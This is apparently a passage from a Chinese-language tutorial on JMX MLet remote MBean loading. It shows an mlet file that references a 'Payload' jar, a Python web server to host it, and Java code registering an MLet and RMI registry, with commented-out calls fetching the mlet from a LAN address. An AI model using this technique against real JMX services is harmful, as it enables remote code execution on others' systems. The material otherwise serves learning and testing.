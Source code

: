 我们将上述代码打包成jar包，在idea中打jar包参考：https://blog.csdn.net/nopotential/article/details/79018471

然后我们需要编写一个名为mlet的文件：

```
<HTML><mlet code=Payload archive=JMX_Demo2.jar name=MLetCompromise1:name=Payload,id=12></mlet></HTML>
```

把mlet文件与刚刚创建的jar包放在同一Web目录下，我们这里可以直接用python2来简单搭建一个http server,运行如下命令就行：
`python -m SimpleHTTPServer`,具体的百度一下吧


然后我们有了MBean，还需要一个MBeanServer吧，这次的MBean Server的实现方式与之前的差别不大，只是绑定的MBean是远程的而已，具体看下代码：

```java
import javax.management.MBeanServer;
import javax.management.ObjectName;
import javax.management.loading.MLet;
import javax.management.remote.JMXConnectorServer;
import javax.management.remote.JMXConnectorServerFactory;
import javax.management.remote.JMXServiceURL;
import java.lang.management.ManagementFactory;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RemoteMbean {



    public static void main(String[] args){

        try{



            MBeanServer mBeanServer = ManagementFactory.getPlatformMBeanServer();

            //---------------------------------------------

            //remote mbean

            System.out.println("Register MLet bean...");

            MLet mLet = new MLet();

            ObjectName objectNameMLet = new ObjectName("JMXMLet:type=MLet");

            mBeanServer.registerMBean(mLet, objectNameMLet);

            //mLet.getMBeansFromURL("http://192.168.1.110:8080/mlet");

            //-----------------------------------------------------------------

            //mBeanServer.invoke(evilObject.getObjectName(), "getMBeansFromURL", new Object[] {"http://192.168.1.110:8080/mlet"}, new String[] {String.class.getName()});



            //这句话非常重要，不能缺少！注册一个端口，绑定url后，客户端就可以使用rmi通过url方式来连接JMXConnectorServer

            Registry registry = LocateRegistry.createRegistry(1099);

            //构造JMXServiceURL

            JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi:///jndi/rmi://localhost:1099/jmxrmi");
```